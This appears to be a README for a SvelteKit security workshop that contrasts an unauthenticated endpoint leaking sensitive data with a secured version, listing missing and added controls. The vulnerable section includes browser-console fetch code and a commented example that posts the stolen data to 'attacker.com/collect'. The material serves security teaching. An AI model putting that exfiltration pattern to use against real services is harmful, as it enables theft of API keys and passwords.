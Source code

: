# SvelteKit Security Workshop

This workshop demonstrates the importance of securing your SvelteKit
endpoints by showing both vulnerable and secure implementations.

## Vulnerable Example ⚠️

The following code demonstrates how easily an attacker can steal
sensitive data from an unsecured endpoint. Paste this into your
browser console:

```js
fetch('/api/vulnerable-sensitive')
	.then((r) => r.json())
	.then((data) => {
		console.log('Stolen data:', data);
		// In a real attack, data could be sent to attacker's server:
		// fetch('https://attacker.com/collect', {
		//     method: 'POST',
		//     body: JSON.stringify(data)
		// });
	});
```

This vulnerable endpoint (`/api/vulnerable-sensitive`) has several
security issues:

1. No authentication check - anyone can access it
2. No authorization check - no role/permission verification
3. Exposes sensitive data directly (API keys, passwords, etc.)
4. No rate limiting to prevent abuse
5. No audit logging of access attempts

## Secure Example ✅

Here's how the same endpoint should be properly secured
(`/api/sensitive`):

```js
// This will fail as expected due to security measures
fetch('/api/sensitive')
	.then((r) => r.json())
	.then((data) => console.log('Data:', data))
	.catch((err) => console.error('Access denied:', err));
```

The secure endpoint implements critical security measures:

1. Authentication check - requires valid user session
2. Authorization check - requires admin role
3. Data filtering - removes sensitive fields before sending
4. Rate limiting - prevents brute force attempts
5. Audit logging - tracks access attempts
6. Proper error handling - doesn't leak implementation details

Always implement proper security measures in your SvelteKit
applications to protect sensitive data!
